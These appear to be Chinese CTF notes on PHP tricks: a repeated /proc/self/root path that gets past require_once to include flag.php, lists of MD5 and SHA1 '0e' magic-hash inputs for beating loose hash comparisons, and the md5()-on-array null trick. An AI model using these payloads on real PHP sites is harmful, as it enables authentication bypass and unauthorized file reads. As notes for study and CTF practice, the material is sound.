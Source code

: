 [php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```

## 哈希字符串

### 0e bypass

```php
$_GET['name'] != $_GET['password']
MD5($_GET['name']) == MD5($_GET['password'])
```

PHP在处理哈希字符串时，它把每一个以“0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以“0E”开头的，那么PHP将会认为他们相同，都是0。

这一点在 md5() / sha1() 都适用，以下是可用的payload：

```md5 0e payload
# md5 0e payload
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
```

```sha1 0e payload
# sha1 0e payload
aaroZmOk
aaK1STfY
aaO8zKZF
aa3OFF9m
0e1290633704
10932435112
```

### Array bypass

md5 加密数组时返回 null

```php
$a = Array();
$b = Array();

md5($a) == md5($b); // null == null true
md5($a) === md5($b); // null === null true
```

sha1 同理
